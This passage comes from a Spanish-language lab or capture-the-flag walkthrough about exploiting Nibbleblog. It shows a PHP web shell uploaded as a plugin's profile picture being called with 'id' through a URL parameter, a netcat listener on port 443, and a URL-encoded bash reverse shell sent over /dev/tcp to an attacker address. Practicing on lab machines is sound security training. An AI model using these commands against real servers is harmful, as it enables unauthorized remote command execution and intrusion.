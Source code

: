 y en la URL pondremos:

```bash
http://172.17.0.2/nibbleblog/content/private/plugins/about/profile_picture.php?fatality=id
```
en mi caso al archivo con el php malicioso le puse de nombre fatality pero si tu lo llamaste "shell", "shadow", "cmd" tendras que poner :

```bash
http://172.17.0.2/nibbleblog/content/private/plugins/about/profile_picture.php?cmd=id
```

etc...


![[20250803172122.png]](chocolate-images/20250803172122.png)

vemos como ha funcionado y tenemos ejecución de comandos asi que vamos a lanzarnos una shell

en nuestra maquina de atacante nos ponemos en escucha en mi caso por el puerto 443 

```bash
nc -nlvp 443
```

y en la url de la pagina lanzamos una shell urlencodeada

```bash
172.17.0.2/nibbleblog/content/private/plugins/about/profile_picture.php?fatality=bash -c "bash -i %26>/dev/tcp/192.168.1.182/443 0>%261"
```

![[20250803172347.png]](chocolate-images/20250803172347.png)
